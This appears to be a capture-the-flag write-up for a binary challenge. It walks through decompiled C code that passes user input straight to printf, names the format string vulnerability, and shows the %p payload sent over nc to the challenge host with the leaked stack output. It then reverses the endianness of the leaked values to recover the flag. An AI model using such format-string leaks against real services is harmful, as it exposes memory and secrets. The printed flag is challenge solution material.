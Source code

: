 ```
   NX:       NX enabled  
   PIE:      No PIE (0x8048000)  
   Stripped: No
```
This binary has Partial RELRO, No PIE, and Canary enabled. So, let's take a look at the disassembled code.
```
void vuln(void)

{
  char local_b4 [64];
  char local_74 [100];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("Barista: 'The special blend is missing...(create flag.txt)'");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_b4,0x40,local_10);
  fclose(local_10);
  puts("Barista: 'What will you have?'");
  fgets(local_74,100,stdin);
  printf(local_74);
  putchar(10);
  return;
}
```
We can see that the program opens the `flag.txt` file and prints 'missing' if the file is not found.

From the code, we notice a `printf` call after `fgets` without a format specifier. This indicates a format string vulnerability.

So, let's leak some values.
```
└─$ nc chals1.apoorvctf.xyz 3003  
Welcome to Kogarashi Café.  
Barista: 'What will you have?'  
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %P %p   
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %P %p  
0xd12481 0xfbad2288 0xff2edb7f 0xd124dd (nil) 0x746376726f6f7061 0x334d5f3368547b66 0x736b34334c5f756e 0x68545f6572304d5f 0x68535f74495f6e61 0x7d646c7530 0x404050 0x7fc514f2d5e0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0  
x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70252050 (nil) 0xd122a0 0x7fffa88540a0 0x401278 %P 0x1
```
then after some multiple tries , we can find that 
```
0x746376726f6f7061 0x334d5f3368547b66 0x736b34334c5f756e 0x68545f6572304d5f 0x68535f74495f6e61 0x7d646c7530 0x404050 0x7f8dbb82b5e0 0x7025207025207025 0x2520702520702520 0x2070252070252070
```
these values are not changing each run , so i tried to convert it in to ASCHII  , which didnt go as planned ,
```
F7g&ö÷3M_3hT{f6³C4Å÷VàhT_er0M_5÷Döæ}dlu0 »µà R P% p% p%  R
```
since this is not in the readable form ,
then i manually changed the endian of this and converted to the ASCII value like 
0x746376726f6f7061 -> 61706f6f72766374 ...

then the flag is apoorvctf{Th3_M3nu_L34ks_M0re_Than_It_Sh0uld}. 
